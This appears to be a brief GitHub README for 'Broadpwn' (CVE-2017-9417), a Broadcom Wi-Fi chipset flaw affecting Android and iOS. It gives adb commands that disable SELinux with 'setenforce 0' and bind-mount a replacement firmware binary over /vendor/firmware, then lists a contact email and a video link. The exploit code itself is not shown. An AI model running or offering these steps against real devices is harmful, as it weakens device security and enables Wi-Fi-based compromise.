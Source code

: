 # Broadpwn
Broadpwn bug (CVE-2017-9417)

  Remotely Compromising Android and iOS via a Bug in Broadcom’s Wi-Fi Chipsets

  $ adb shell 
  
  #setenforce 0
  
  #cp fw_bcmdhd.bin /data/local/tmp/firmware/
  
  #chmod 755 /data/local/tmp/firmware/fw_bcmdhd.bin
  
  #mount -o bind /data/local/tmp/firmware /vendor/firmware
  
  #stop
  
  #start

  If you have any questions, feel free to ask for more information: Linnebergmai@gmail.com
 
  Whatch the instruction: https://youtu.be/GTb4Y2Y9shw
